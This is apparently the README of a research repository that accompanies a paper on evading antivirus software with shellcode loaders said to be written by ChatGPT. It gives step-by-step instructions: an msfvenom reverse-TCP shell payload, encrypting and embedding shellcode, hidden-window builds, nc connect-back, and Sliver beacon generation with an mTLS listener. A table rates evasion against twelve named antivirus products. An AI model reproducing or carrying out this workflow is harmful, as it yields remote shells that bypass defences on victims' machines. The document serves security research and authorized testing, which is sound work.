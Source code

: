 <!-- ABOUT THE PROJECT -->
## About The Project

This project was created to share our code that is mentioned in the following paper. In this repository, we included only the relevant Go, Rust, and C++ code that was created by ChatGPT. The purpose of this project was to demonstrate that with simple and common evading techniques, a malicious executable can evade most, if not all, AV solutions. It should be noted that the study focused on Windows 11. So, probably these executables will be working in Windows 10, but I have not tested them.


### Built With

This section lists all major frameworks/libraries used to create this project. 
1. Go 1.19.5
2. Rust (nightly-x86_64-pc-windows-msvc toolchain)
3. Python 3.10
4. pycryptodomex


<!-- GETTING STARTED -->
## Getting Started




### Requirements
1. Install Go 1.19.5
2. Install Rust (nightly-x86_64-pc-windows-msvc toolchain)
3. Install Visual Studio 2022 (Rust + all Universal/Desktop C++ relevant packages)
4. Install C++ dependencies from Visual Studio 2022
5. Install Visual Studio Code (Go)
6. Install Python 3.10
7. Install pycryptodomex



<!-- USAGE EXAMPLES -->
## Usage
### For Go
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f go 
2. Remove "0x" and new line values
3. Place the shellcode in the encryptGo.go file
4. Execute the code
5. Take the encrypted shellcode and place it in the decryptGo.go file
6. Compile the Go file to retrieve the .exe with the following command
```
go build -ldflags -H=windowsgui decryptGo.go
```

### For Rust
1. Place the shellcode.bin file to the same directory as with the encryptPython.py
2. Execute 
```
python encryptPython.py
```
to generate necessary files
3. Compile the code to retrieve the exe file
```
cargo build --release
```
Note: If you want to use Rust with two loaders, after encrypting the first binary file, edit the encryptPython.py file, to change the output name of the second binary file, as explained in the relevant Python comments. If you want to use only one loader, simply comment out the irrelevant code lines, as these have been noted in different comments in the Rust code.

Hint: In case of development, when the .exe process is running, Rust compiler will show "access denied" error, because it cannot replace the previous .exe file, due to the running process. Either stop this process, in this case is named "test" or rename the package name in the "Cargo.toml" file, from test to something different.

### For C++ (ChatGPT)
1. Create a WindowsApplication dummy project in Visual Studio 2022
2. Change debug to release
3. Choose the proper port.
4. Compile the code to generate the exe file
5. Connect from a Linux host with the following command
```
nc IP PORT
```
If everything is working correctly, you should receive a "Connection Established!" message and be able to execute cmd commands to receive their response. If this message was not received, check if this port is open for inbound traffic in the Windows Firewall settings. If not, simply add a firewall rule to allow this traffic.

Note: If you want to use random generated files, execute the following command
```
head -c 90M </dev/urandom > file-2
```
With "file-2" the name of the output file, and "90M" is the file size. You can generate and include as many files as you like.


## Receiving connections
To be able to capture the response of these executables, I used two C2 servers, namely Sliver, and Nimplant. In addition to Metasploit, which was used for completeness. Also, Rust code requests a binary file to load into the process, while Go code loads a simple shellcode. So, to export such a file from Nimplant, execute:
```
python NimPlant.py compile
```
While, to generate such a file from Sliver, change the "IP" to the IP address of the hosted Sliver server and execute:
```
generate beacon --mtls IP --os windows --disable-sgn -f shellcode --skip-symbols --timeout 10
```
And start the "mtls" listener, by executing:
```
mtls
```

## AV Evasion
The following table refers to the executables with the best evasion rate from the study. This means that all these three executables had included randomly generated files, use the provided code, and for the Rust code, implemented both loaders. For the Paid versions of AVs, I tested in some cases their trial versions.  As we can observe from the following table, the evasion rate is quite high, especially in the case of Rust code, which managed to evade all most-common AV solutions. This is noted on 31/03/2023.

|  AV | Go | Rust | C++ | Free/Paid version|
|---|---|---|---|---|
|Avast|✗|  ✓ |  ✗ | Free |
|AVG |  ✗ |  ✓ |  ✗ | Free |
|  Avira|  ✓ | ✓  |  ✓ | Free |
|  MS Defender |  ✓ | ✓  | ✓  | Free |
|  Webroot | ✓  |  ✓ | ✓ | Paid |
|  Eset Smart Security Premium |  ✗ |  ✓ |  ✓ | Paid |
|  Bitdefender Total Security |  ✗ | ✓  | ✓ | Paid |
| Kaspersky Small Office Security |  ✓ |✓   |✗ | Paid |
| Sophos Home |  ✓ |  ✓ | ✓ | Paid |
| MalwareBytes |  ✓ |  ✓ | ✓ | Paid |
| McAfee Total Security |  ✓ | ✓  | ✓  | Paid |
| Norton |  ✓ | ✓  |  ✓ | Paid |
| Results| 8/12| 12/12| 9/12| -- |

<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".


<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information. The relevant code is provided only for educational purposes and authorized audits. Use it at your own risk.



<!-- CONTACT -->
## Contact

Efstratios Chatzoglou -  efchatzoglou@gmail.com 


<!-- ACKNOWLEDGMENTS -->
## Acknowledgments
I would like to thank the developers that created the following three repositories, which they assisted into creating this one. The Go code is forked from https://github.com/sezzle/simpleGoAES, and https://github.com/Ne0nd0g/go-shellcode/tree/master/cmd/CreateProcess and the Rust code from https://github.com/cr7pt0pl4gu3/Pestilence. Also, I would like to thank the awesome C2 tools, Sliver https://github.com/BishopFox/sliver, and Nimplant https://github.com/chvancooten/NimPlant.

